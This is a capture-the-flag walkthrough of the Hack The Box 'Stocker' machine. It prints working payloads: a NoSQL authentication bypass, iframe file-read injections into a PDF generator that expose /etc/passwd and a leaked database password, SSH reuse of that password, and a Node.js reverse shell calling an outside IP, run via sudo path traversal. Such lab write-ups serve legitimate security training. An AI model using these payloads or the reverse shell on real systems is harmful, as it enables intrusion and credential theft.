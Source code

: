 # Stocker HTB machine

**A machine with a subdomain web service that creates and displays orders, which is vulnerable to NoSQL and SSRF attacks.**

First of all, we should add the ip of the machine into the hosts folder. This is sometimes needed for the DNS resolution.

- Go to etc/hosts and add the line "10.10.11.196 stocker.htb". Save the file and open your vpn document with "openvpn name_of_vpn_document" from the terminal.

- After exploring the web page, we do not find an entry point. We can start scanning the websites for new files, but there is nothing interesting there either. Let's do wordlist scanning for subdomains, using gobuster:

```
gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u stocker.htb -t 50 --append-domain
```

We find out that "dev" is a subdomain of "stocker". So, let's check the website "dev.stocker.htb". First, we see a login form. Trying different usernames and passwords does not get us anywhere. SQLI does not work either. Let's open burpsuite to automate our interaction with the browser. We can try NoSQL injection and see whether it bypasses the authentication or not. 

This article explains how to perform noSQLI:

https://book.hacktricks.xyz/pentesting-web/nosql-injection#basic-authentication-bypass

We can try basic JSON authentication bypass using not equal ($ne). The $ne property with some random value, basically structures the query to search for usernames/passwords which are NOT EQUAL to our random values.

Change the content type to "application/json" and substitute the data payload of the request in burpsuite, with the following lines:

```
{"username":{"$ne":null}, "password":{"$ne":null}}
```

And.. we got in! We are being redirected to a website, where we can put items in the cart and make an order. Then, we can view the order through a pdf file. Downloading and examinating the pdf file using "exiftool" will produce interesting metadata about the file. Using the exiftool command, we see "Producer : Skia/PDF m108". So, the PDF is generated via some kind of Chromium web-browser based bot. So, we the application was created by Chromium using the Skia/PDF m108 graphics library. This indicates that the application is utilising Headless Chrome version 108 to render and convert the dashboard pages, potentially allowing the execution of JavaScript code. The next step is to attempt to trigger the execution of XSS payloads within the headless browser used by the PDF generation service.

This article explains the vulnerability and the exploit:

https://www.triskelelabs.com/blog/extracting-your-aws-access-keys-through-a-pdf-file

We can try substituting the string value of "Title" to the following command:

```
<iframe src=/etc/passwd height=1000 width=1000></iframe>
```

If we check the pdf generated, we will see the contents of the /etc/passwd file. 

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:112:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:113::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:114::/nonexistent:/usr/sbin/nologin
landscape:x:109:116::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
fwupd-refresh:x:112:119:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
mongodb:x:113:65534::/home/mongodb:/usr/sbin/nologin
angoose:x:1001:1001:,,,:/home/angoose:/bin/bash
_laurel:x:998:998::/var/log/laurel:/bin/false
```


The successful execution of our XSS payload implied that we had some control over a browser located inside the organisation's internal network. As such, we could manipulate the browser to request arbitrary restricted resources which would be unreachable by outside users. This is known as a Server-Side Request Forgery (SSRF) attack.

Let's see more information about the configurations of the machine. Add the following line to the "Title" value:

```
<iframe src=file:///etc/nginx/nginx.conf height=1000 width=1000></iframe>
```

We now from the contents of the configuration file, that 'dev.stocker.htb' operates from '/var/www/dev/'. Since this vulnerability does not give us RCE access next step is to find a password for the users. Using prior knowledge of NodeJS naming schemes, we can try 'app,main,index+.js' . The 'index.js' exists. 

Add the following line to the "Title" value:
```
<iframe src=file:///var/www/dev/index.js height=1000 width=1000></iframe>
```

In the pdf file produced, we can see the following line:

```
const dbURI = "mongodb://dev:IHeardPassphrasesArePrettySecure@localhost/dev?authSource=admin&w=1";
```

So, since we know from the "/etc/passwd" file that the user "angoose" exists, let's try doing ssh and providing the password found in the "index.js" file.

Execute the following command:

```
ssh angoose@stocker.htb
```

Providing the password "IHeardPassphrasesArePrettySecure" will get us in.

Now, we can get the "user.txt" flag. We can now look for ways to do privilege escalation. We can try "sudo -l" to see the privileges of the "angoose" user.

```
[sudo] password for angoose: 
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
```

So, that means that the user "angoose" has privileges to execute ".js" scripts. Let's make a script that will establish a reverse shell connection with our computer(make sure to place the appropriate ip and port values). Create the following script under the "angoose" user folder:

```
(function(){ var net = require("net"), cp = require("child_process"), sh = cp.spawn("/bin/sh", []); var client = new net.Socket(); client.connect(4444, "10.10.16.31", function(){ client.pipe(sh.stdin); sh.stdout.pipe(client); sh.stderr.pipe(client); }); return /a/;})();
```

Now, open a connection in your terminal using "nc -lvpn 4444". Then, run the script from the ssh connection:

```
sudo /usr/bin/node /usr/local/scripts/../../../home/angoose/script.js
```

Hopefully, after executing the command, you will be able to see that you have established connection as a "root" user. You can navigate to "/root" and get the "flag.txt" flag.
